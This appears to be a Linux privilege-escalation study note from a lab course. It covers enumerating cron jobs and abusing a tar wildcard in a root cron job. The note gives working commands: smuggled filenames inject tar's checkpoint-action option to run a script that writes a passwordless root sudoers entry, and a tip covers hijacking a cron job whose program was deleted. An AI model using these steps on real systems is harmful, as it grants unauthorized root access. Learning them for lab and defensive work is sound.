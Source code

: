   * Scripts or commands set to run at specific times, by default they run with the owner's privileges.

    ```bash
    cat /etc/crontab
    # Other ways:
    ls -la /etc/cron.hourly/
    ls -la /etc/cron.daily/
    ls -la /etc/cron.weekly/
    ls -la /etc/cron.monthly/
    ls -la /etc/cron.d/
    crontab -l 2>/dev/null
    ls -la /var/spool/cron/crontabs/ 2>/dev/null
    ```

  * **Wildcard Abuse** (**`*`** at the end of the cronjob/script)

    * It is the use of **wildcard characters** (`*`, `--option=value`, etc.) to **inject arguments into the command** called by a cronjob (usually with elevated privileges). **BASICALLY** when there is a **`*`** at the end of a cronjob and we try to exploit it. Example with `tar`, it is possible to abuse the **flag `--checkpoint-action=exec=`** to execute arbitrary commands.
  
      ```
      * * * * * root cd /somepath && tar -zcf backup.tar.gz *
      ```

    * When we locate the **`*`**, we check if we have write permission in the directory:

      ```bash
      cd /path
      touch test.txt
      ```

    * We then explore according to the cronjob (since we will change flags..).. research accordingly.

    * **Ex → `tar`:**

      ```bash
      echo 'echo "htb-student ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
      chmod +x root.sh
      echo "" > "--checkpoint-action=exec=sh root.sh"
      echo "" > --checkpoint=1
      ```
  
      ```bash
      sudo -l
      sudo su -
      ```

    ---

  * Many times the program may have been deleted, but it may be that the admin forgot to delete it in Cron Jobs too, that is, we can simply create a program with the same name of the missing one in the referenced directory.

---
